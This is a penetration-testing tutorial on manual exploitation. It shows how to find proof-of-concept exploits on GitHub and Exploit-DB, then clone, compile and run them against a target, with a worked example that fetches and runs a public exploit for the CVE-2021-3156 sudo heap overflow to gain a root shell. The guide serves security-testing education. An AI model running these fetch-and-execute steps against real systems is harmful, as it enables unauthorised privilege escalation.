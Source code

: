 # Manual Exploitation Guide

##  Introduction
Manual exploitation is the process of **identifying, downloading, and executing exploits** without using automated tools like Metasploit. This approach is useful when **Metasploit does not have a suitable exploit** or when testing requires **manual control** over execution.

---

##  Finding an Exploit
Before manually exploiting a target, research and obtain a working exploit.

### **1️ Searching for Exploits on GitHub**
Many proof-of-concept (PoC) exploits are published on **GitHub**.
#### **Google Dork to Search GitHub**
```bash
site:github.com "<service> exploit"
```
**Example:**
```bash
site:github.com "OpenSSH 7.2 exploit"
```
- Look for repositories with PoC code.
- Check README files for **installation and usage instructions**.

#### **Using Exploit-DB & SearchSploit**
```bash
searchsploit OpenSSH 7.2
```
If a relevant exploit is found, **copy it locally**:
```bash
searchsploit -m exploits/unix/remote/4091.py
```

---

##  Cloning & Setting Up the Exploit
Once a suitable exploit is found on GitHub, clone and set it up.

### **2️ Cloning the Exploit Repository**
```bash
git clone https://github.com/username/exploit-repo.git
```
Then, **navigate into the directory**:
```bash
cd exploit-repo
```

### **3️ Install Dependencies**
Many exploits require additional dependencies. Check the **README** or `requirements.txt`.
```bash
pip install -r requirements.txt
```
If using a compiled exploit (C, C++):
```bash
gcc exploit.c -o exploit
```

---

##  Exploiting the Target
### **4️ Running the Exploit**
#### **Python Exploit Example**
```bash
python3 exploit.py --target 192.168.1.100 --port 8080
```
#### **Bash Exploit Example**
```bash
chmod +x exploit.sh
./exploit.sh 192.168.1.100
```
#### **C/C++ Exploit Example**
```bash
./exploit 192.168.1.100
```

---

##  Example: Manual Exploitation of CVE-2021-3156 (Sudo Heap Overflow)
This vulnerability allows **local privilege escalation**.

### **1️ Download the Exploit**
```bash
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
```

### **2️ Compile the Exploit**
```bash
gcc exploit.c -o sudo_exploit
```

### **3️ Run the Exploit**
```bash
./sudo_exploit
```
- If successful, a **root shell (`#`)** will be obtained.

---

##  Troubleshooting & Tips
### **If the Exploit Fails:**
1. **Check the Target System Version**
   ```bash
   uname -a
   cat /etc/os-release
   sudo --version
   ```
2. **Try a Different Exploit Variant**
   ```bash
   searchsploit sudo
   ```
3. **Modify the Exploit Code** (Adjust hardcoded values, shellcode, offsets).
4. **Ensure Dependencies Are Installed** (Use `pip`, `apt-get`, or `dnf`).
5. **Run the Exploit with Debugging** (Use `strace`, `gdb`, or `ltrace`).

---

##  Conclusion
Manual exploitation requires **careful research, correct setup, and debugging skills**. Using **GitHub, Exploit-DB, and SearchSploit**, security testers can find and execute exploits when automated tools are unavailable.

